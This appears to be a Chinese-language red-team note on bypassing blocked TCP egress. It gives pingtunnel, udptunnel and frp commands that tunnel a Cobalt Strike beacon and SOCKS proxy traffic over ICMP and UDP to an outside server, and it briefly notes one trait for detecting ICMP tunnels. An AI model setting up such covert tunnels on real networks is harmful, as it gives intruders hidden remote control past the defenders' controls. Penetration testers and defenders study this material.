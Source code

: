 <a name="BNR4j"></a>
## 
<a name="qYHPh"></a>
## 适用情况
有时候内网情况恶劣。<br />正常情况下，都以为会出网。<br />![image.png](https://cdn.nlark.com/yuque/0/2021/png/1345801/1626321090759-e0444e7d-4558-4cd2-918c-b5cb832c3f20.png#height=377&id=w1qSk&originHeight=502&originWidth=585&originalType=binary&ratio=1&rotation=0&showTitle=false&size=46883&status=done&style=none&title=&width=439)<br />但是tcp被禁用了，就会出现无法访问应用层。例如http<br />这个时候powershell就有问题了。同样的，http、应用层之类就无法访问了。http协议的底层还是tcp HTTP协议中的数据是利用TCP协议传输的，所以支持HTTP也就一定支持TCP  <br />![image.png](https://cdn.nlark.com/yuque/0/2021/png/1345801/1626321175087-7e70bf64-86b5-4df9-b297-238c5c276fa4.png#height=197&id=kRUtd&originHeight=263&originWidth=808&originalType=binary&ratio=1&rotation=0&showTitle=false&size=26974&status=done&style=none&title=&width=606)<br />![image.png](https://cdn.nlark.com/yuque/0/2021/png/1345801/1626321362127-71c9aed6-edb5-462f-8b18-50535647a933.png#height=95&id=Pz6iD&originHeight=126&originWidth=686&originalType=binary&ratio=1&rotation=0&showTitle=false&size=9626&status=done&style=none&title=&width=515)

那么问题来了，为什么禁用了tcp，但是却可以用icmp隧道。主要原因还是因为tcp/ip协议模型的原理。需要从<br />物理层、链路层 –> 网络层 -> 运输层 -> 应用层的路线。所以tcp禁用了，应用就没办法过包。但是icmp是不影响的，icmp一样是可以和互联网通信。

http隧道可以走正向，是因为http本来就可以正向访问，虽然tcp不出网，但是tcp可以和内网服务器通信，socks访问内网的流量被包装在http请求包里面

HTTP是基于请求-响应形式并且是短连接，即客户端向服务器端发送一次请求，服务器端响应后连接即会断掉。<br />HTTP的传输速度慢，数据包大，数据传输安全性差，如实现实时交互，服务器性能压力大。<br />socket一般用于比较即时的通信和实时性较高的情况，比如推送，聊天，保持心跳长连接等；<br />![image.png](https://cdn.nlark.com/yuque/0/2021/png/1345801/1626321400761-e96daa1b-0491-4c0c-ade2-8109de5942f7.png#height=455&id=bI9l5&originHeight=606&originWidth=728&originalType=binary&ratio=1&rotation=0&showTitle=false&size=105812&status=done&style=none&title=&width=546)

**但是这种情况，我们可以利用icmp、udp协议进行突破。以下实验均使用win10进行操作。win7、win8失败率均高。并且目标服务器要与外网服务器能进行icmp连接，要建立在能互相ping的通的情况下。**
<a name="vYJ8H"></a>
## ICMP隧道上线CS

服务端启动<br />root@VM-16-16-ubuntu:~# ./pingtunnel -type server -nolog 1 -noprint 1

客户端  <br />把远程5666端口转到本地12345端口，所以本地12345端口可以进行tcp连接<br />pingtunnel.exe -type client -l :12345 -s 服务器ip -t 服务器ip:5666 -tcp 1 -nolog 1 -noprint 1<br />![image.png](https://cdn.nlark.com/yuque/0/2021/png/1345801/1626404337964-09be0e4f-6faa-49f6-b282-35efc2ba6e7f.png#height=117&id=C5Rie&originHeight=117&originWidth=969&originalType=binary&ratio=1&rotation=0&showTitle=false&size=9279&status=done&style=none&title=&width=969)

CS监听的Listen，生成beacon马<br />![image.png](https://cdn.nlark.com/yuque/0/2021/png/1345801/1626404367440-56d55c97-23c1-4f57-953b-c80307160380.png#height=59&id=WGFKj&originHeight=79&originWidth=942&originalType=binary&ratio=1&rotation=0&showTitle=false&size=10888&status=done&style=none&title=&width=707)

可以上线CS。<br />![image.png](https://cdn.nlark.com/yuque/0/2021/png/1345801/1626403747116-d7442039-cec1-4c96-acab-41462f59ffa7.png#height=893&id=cy40N&originHeight=893&originWidth=1816&originalType=binary&ratio=1&rotation=0&showTitle=false&size=377181&status=done&style=none&title=&width=1816)


[https://blog.csdn.net/qq_45300786/article/details/110943803](https://blog.csdn.net/qq_45300786/article/details/110943803)<br />[https://www.freebuf.com/sectool/187069.html](https://www.freebuf.com/sectool/187069.html)<br />[https://cloud.tencent.com/developer/article/1781919](https://cloud.tencent.com/developer/article/1781919)

<a name="vtcZT"></a>
## icmp隧道特征
data值过大，内容可能会带有tunn字眼
<a name="FVCMu"></a>
## ICMP隧道搭建frp
[https://www.yuque.com/docs/share/de32a005-7132-41a9-a081-84f4c6ac1f46?#QAvQo](https://www.yuque.com/docs/share/de32a005-7132-41a9-a081-84f4c6ac1f46?#QAvQo)

root@VM-16-16-ubuntu:~# ./pingtunnel -type server -nolog 1 -noprint 1<br />![image.png](https://cdn.nlark.com/yuque/0/2021/png/1345801/1626407677567-6e828e57-e63a-4c34-a513-b7932e8ec4a2.png#height=42&id=s3eYz&originHeight=56&originWidth=727&originalType=binary&ratio=1&rotation=0&showTitle=false&size=5933&status=done&style=none&title=&width=545)<br />服务端进行frp隧道<br />![image.png](https://cdn.nlark.com/yuque/0/2021/png/1345801/1626407734506-d20ed835-b941-47d5-a05b-f5154c19cab1.png#height=88&id=pbEfH&originHeight=117&originWidth=714&originalType=binary&ratio=1&rotation=0&showTitle=false&size=21297&status=done&style=none&title=&width=536)<br />客户端  (与tcp并无太大关系，抓包发现都是icmp协议传输)<br />pingtunnel.exe -type client -l :12346 -s 服务器ip -t 服务器ip:5667 -tcp 1 -nolog 1 -noprint 1

把远程5667端口转到本地12346端口，所以本地12346端口可以进行tcp连接<br />![image.png](https://cdn.nlark.com/yuque/0/2021/png/1345801/1626407656028-ffeceb89-3f0d-4bf2-8a06-33d5f2fb4099.png#height=57&id=mEQs2&originHeight=76&originWidth=975&originalType=binary&ratio=1&rotation=0&showTitle=false&size=5596&status=done&style=none&title=&width=731)<br />客户端进行连接<br />![image.png](https://cdn.nlark.com/yuque/0/2021/png/1345801/1626407765296-1ef62ea4-a2aa-42c4-a763-23d455112af0.png#height=88&id=v0gPs&originHeight=117&originWidth=893&originalType=binary&ratio=1&rotation=0&showTitle=false&size=19196&status=done&style=none&title=&width=670)<br />proxifier连接8888端口<br />![image.png](https://cdn.nlark.com/yuque/0/2021/png/1345801/1626407304166-5f0b3b8b-9993-4b22-b80f-53458181c7d3.png#height=818&id=KNVLS&originHeight=818&originWidth=1648&originalType=binary&ratio=1&rotation=0&showTitle=false&size=306875&status=done&style=none&title=&width=1648)<br />![image.png](https://cdn.nlark.com/yuque/0/2021/png/1345801/1626407916873-55c7836b-a31a-4e81-852d-f99907afa017.png#height=71&id=lgGGs&originHeight=142&originWidth=947&originalType=binary&ratio=1&rotation=0&showTitle=false&size=14516&status=done&style=none&title=&width=473.5)![image.png](https://cdn.nlark.com/yuque/0/2021/png/1345801/1626407551375-d47789f4-14be-4fc7-8d25-279fc6c5b39e.png#height=234&id=dTPN8&originHeight=312&originWidth=865&originalType=binary&ratio=1&rotation=0&showTitle=false&size=46747&status=done&style=none&title=&width=649)

![image.png](https://cdn.nlark.com/yuque/0/2021/png/1345801/1626407498704-12733cbd-10b9-4b42-8c9d-113eea50aecb.png#height=497&id=XZZnU&originHeight=497&originWidth=1340&originalType=binary&ratio=1&rotation=0&showTitle=false&size=94072&status=done&style=none&title=&width=1340)
<a name="R2UJe"></a>
## UDP隧道上线CS
TCP进行了阻断，但是不影响UDP协议的传输，所以可以考虑UDP隧道上线CS<br />服务端<br />root@VM-16-16-ubuntu:~# ./udptunnel -s 6668<br />![image.png](https://cdn.nlark.com/yuque/0/2021/png/1345801/1626401278120-2429796d-5e9a-40c9-a4c5-5ebe11a38fc1.png#height=34&id=OGhkb&originHeight=46&originWidth=627&originalType=binary&ratio=1&rotation=0&showTitle=false&size=5722&status=done&style=none&title=&width=470)

客户端<br />udptunnel.exe -c 0.0.0.0:12345 -t 服务器ip:6668 -r 服务器ip:5666<br />![image.png](https://cdn.nlark.com/yuque/0/2021/png/1345801/1626401316240-6c155995-905d-472d-a841-4fed23fd494b.png#height=46&id=DbqR2&originHeight=61&originWidth=801&originalType=binary&ratio=1&rotation=0&showTitle=false&size=7936&status=done&style=none&title=&width=601)<br />CS要同时监听5666端口和本地12345端口<br />![image.png](https://cdn.nlark.com/yuque/0/2021/png/1345801/1626401419410-9f9ceb01-a8bd-4f0a-b194-49d211315b27.png#height=415&id=YBrTR&originHeight=554&originWidth=479&originalType=binary&ratio=1&rotation=0&showTitle=false&size=35221&status=done&style=none&title=&width=359)<br />![image.png](https://cdn.nlark.com/yuque/0/2021/png/1345801/1626401431180-ef802de2-26cc-41ef-82e1-df99dcc763eb.png#height=415&id=V6wSX&originHeight=554&originWidth=479&originalType=binary&ratio=1&rotation=0&showTitle=false&size=38310&status=done&style=none&title=&width=359)<br />用本地127.0.0.1 12345监听的listen生成beacon才能上线。<br />![image.png](https://cdn.nlark.com/yuque/0/2021/png/1345801/1626401567951-a7e7e437-d79c-45f7-aae8-620a5307a7c9.png#height=702&id=v0nxM&originHeight=936&originWidth=1758&originalType=binary&ratio=1&rotation=0&showTitle=false&size=307311&status=done&style=none&title=&width=1319)

<a name="KVZck"></a>
## 新工具
[https://mp.weixin.qq.com/s/F8A53I6dcXcfdPAX-fVntQ](https://mp.weixin.qq.com/s/F8A53I6dcXcfdPAX-fVntQ)
